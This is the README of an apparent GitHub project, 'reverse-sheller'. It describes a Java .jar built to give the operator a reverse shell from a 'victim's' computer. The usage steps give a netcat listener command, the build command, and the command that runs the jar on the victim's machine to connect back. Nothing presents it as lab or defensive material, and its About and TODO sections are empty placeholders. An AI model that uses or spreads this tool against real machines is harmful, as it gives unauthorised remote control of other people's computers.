

# reverse-sheller

## Build and execute this .jar on target machine with JDK11 or above to get a reverse shell from your host.



## Table of Contents

* [Usage 💡](#usage)
* [About 💁📙](#about)
* [TODO 📝](#todo)
* [Author 👷](#author)

## Usage 💡 <a name="usage"></a>

1) Open server waiting for client connection. From this terminal you will be able to execute reverse shell commands:

```bash
nc -lvnp 4444
```

2) Build `.jar` using:

```bash
./gradlew build
```

3) Grab the `.jar` from `./src/client/build/libs` and execute it on the victims computer using:

```bash
java -jar <filename.jar> 127.0.0.1 4444
```

(Requirement: JDK8 or higher needs
to be installed on victims computer, and JAVA_HOME variable needs to be pointing to working JDK instance)

## About 💁📙 <a name="about"></a>

...
...

## TODO 📝 <a name="todo"></a>

Things that need to be done:

1) Server implementation
2) ...
3) ...
   ...


## Author 👷 <a name="author"></a>

Drop me a line at: rojberr@outlook.com 